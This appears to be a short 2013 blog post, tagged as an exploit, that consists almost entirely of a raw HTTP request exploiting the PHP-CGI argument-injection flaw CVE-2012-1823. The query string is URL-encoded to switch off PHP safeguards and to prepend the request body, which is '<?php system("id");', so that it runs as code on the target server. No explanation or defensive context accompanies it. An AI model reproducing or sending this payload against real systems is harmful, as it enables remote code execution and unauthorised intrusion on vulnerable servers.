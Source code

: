 title: "apache+php cgi mod(cve-2012-1823) exp"
date: 2013-11-18 11:15:14
tags:
id: 395
comment: false
categories:
  - exploit
---

<pre class="brush:cpp">POST /cgi-bin/php5?%2D%64+%61%6C%6C%6F%77%5F%75%72%6C%5F%69%6E%63%6C%75%64%65%3D%6F%6E+%2D%64+%73%61%66%65%5F%6D%6F%64%65%3D%6F%66%66+%2D%64+%73%75%68%6F%73%69%6E%2E%73%69%6D%75%6C%61%74%69%6F%6E%3D%6F%6E+%2D%64+%64%69%73%61%62%6C%65%5F%66%75%6E%63%74%69%6F%6E%73%3D%22%22+%2D%64+%6F%70%65%6E%5F%62%61%73%65%64%69%72%3D%6E%6F%6E%65+%2D%64+%61%75%74%6F%5F%70%72%65%70%65%6E%64%5F%66%69%6C%65%3D%70%68%70%3A%2F%2F%69%6E%70%75%74+%2D%64+%63%67%69%2E%66%6F%72%63%65%5F%72%65%64%69%72%65%63%74%3D%30+%2D%64+%63%67%69%2E%72%65%64%69%72%65%63%74%5F%73%74%61%74%75%73%5F%65%6E%76%3D%30+%2D%6E HTTP/1.1
Content-Length: 19
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Cookie: ci_session=a%3A4%3A%7Bs%3A10%3A%22session_id%22%3Bs%3A32%3A%22be532ec6ac3cf79c7a93e8e74f51a97d%22%3Bs%3A10%3A%22ip_address%22%3Bs%3A9%3A%2210.1.6.52%22%3Bs%3A10%3A%22user_agent%22%3Bs%3A50%3A%22Googlebot%2F2.1+%28%2Bhttp%3A%2F%2Fwww.googlebot.com%2Fbot.html%29%22%3Bs%3A13%3A%22last_activity%22%3Bi%3A1383619349%3B%7Df562b07e2b264e0e31b4484777b6048c
Host: 10.1.1.5
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/28.0.1500.63 Safari/537.36
Accept: */*

&lt;?php system("id");</pre>